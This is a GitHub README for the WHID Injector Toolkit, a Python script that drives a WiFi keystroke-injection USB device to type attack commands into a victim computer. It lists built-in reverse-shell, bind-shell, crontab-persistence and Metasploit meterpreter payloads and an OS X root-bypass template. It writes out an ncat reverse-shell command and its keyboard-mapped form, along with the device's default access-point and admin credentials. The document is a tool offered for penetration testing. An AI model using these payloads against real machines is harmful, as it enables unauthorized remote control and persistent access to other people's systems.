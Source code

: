 # WHID Injector Toolkit
What is it ? It's a simple script to send commands (french keyboard) from your terminal to the WHID Injector. It will automatically convert the "azerty" to "qwerty" format if you're lazy. Furthermore it has builtins payload such as reverse-shell and bind-shell.

![whid-picture](https://github.com/techanv-bot/WHID_Toolkit/blob/master/screenshots/whid.jpg?raw=true)

**Warning** : Newest version of WHID Toolkit expect the WHID to have a firmware in the prefered language, alternatively you can force the french keyboard with the english firmware using the `--force` arguments. For more customization informations go to techanv-bot.github.io .

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to start
 1. Connect to the Access Point with the SSID "**Exploit**" with a password of "**DotAgency**".   
 2. Open a web browser pointed to "**http://192.168.1.1**"   
    > The default administration username is "**admin**" and password "**hacktheplanet**".       

 3. Remember to upgrade the firmware you will find the latest version in this repository  

More info on the official Github : https://github.com/whid-injector/WHID


## How to use the script
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -h                 
usage: WHIDInjector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 WHIDInjector.py -v --host 127.0.0.1 --port 4444
     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```

## Payloads and commands
| Commands       | Description                           |
| :------------- | :-------------                        |
| bind           | initiate a bind shell on results.port |
| reverse        | initiate a reverse shell on results.host and results.port |
| crontab        | set up a crontab reverse shell on results.host and results.port |
| meterpreter [https://YOUR_SERVER_IP:4646/posh-payload] | use exploit/multi/script/web_delivery with a posh-payload    |
| send some text | send the specified text              |
| h              | help                                 |
| q              | quit                                 |

You can change the options with `SET option_name option_value`
```c
>>> set host 192.168.1.12
>>> set port 4444
```

At the moment the following templates are available, feel free to add more:

| Template | Description |
| :------------- | :------------- |
| payloads/osx_high_sierra_root.txt | CVE-2017-13872 |
| payloads/osx.txt     | execute a command with [Cmd]+[Space] |
| payloads/windows.txt | execute a command with [Windows]+[R] |
| payloads/i3.txt      | execute a command with [Windows]+[Enter] |
| payloads/gnome.txt | execute a command with [Alt]+[F2] |
| payloads/default.txt | default behavior is the gnome command |

NOTE: The i3 payload uses the [Windows] key as the default modifier, some people prefer to use [CTRL]
